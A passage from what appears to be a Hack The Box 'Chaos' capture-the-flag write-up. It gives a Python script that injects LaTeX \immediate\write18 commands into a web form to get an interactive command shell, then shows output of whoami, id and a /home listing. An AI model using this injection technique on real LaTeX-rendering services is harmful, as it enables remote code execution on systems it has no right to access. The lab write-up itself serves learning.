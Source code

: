  ![](/assets/images/htb-writeup-chaos/rce.png)

I wrote a quick python script that sends the commands using the method above and also cleans up the output with some regex:

```python
{% raw %}
import re
import requests

headers = {
	'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
	'X-Requested-With': 'XMLHttpRequest',
	'Cookie': 'redirect=1'
}

while (True):
	cmd = raw_input('> ')

	data = {
		'content': '\\immediate\\write18{%s}' % cmd,
		'template': 'test1'
	}

	r = requests.post('http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php', headers=headers, data=data)
	out = r.text
	m = re.search('.*\(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsa.fd\)\n\(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsb.fd\)(.*)\[1', out, re.MULTILINE|re.DOTALL)
	if m:
		print m.group(1)
{% endraw %}        
```

The output of the script looks like this:

```
# python crapshell.py 
> whoami
www-data
 
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
 
> ls -l /home
total 8
drwx------ 6 ayush ayush 4096 Dec 16 03:32 ayush
drwx------ 5 sahay sahay 4096 Nov 24 23:53 sahay
```
